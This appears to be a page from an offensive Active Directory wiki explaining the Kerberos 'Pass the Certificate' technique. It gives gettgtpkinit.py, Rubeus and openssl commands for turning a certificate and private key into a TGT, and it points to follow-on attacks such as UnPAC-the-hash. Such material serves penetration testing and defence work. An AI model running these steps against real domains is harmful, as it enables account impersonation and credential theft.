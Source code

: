 # Pass the Certificate

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](../ad-cs/) and [UnPAC-the-hash attacks](unpac-the-hash.md).

{% hint style="info" %}
Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.

The "certificate + private key" pair is usually used in the following manner

* PEM certificate + PEM private key
* PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Dirk-jan](https://twitter.com/\_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.

```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```bash
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

{% hint style="info" %}
PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

```bash
openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```
{% endhint %}

{% hint style="info" %}
Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org) can be used.

```bash
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```
{% endhint %}

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](ptt.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.
{% endtab %}
{% endtabs %}
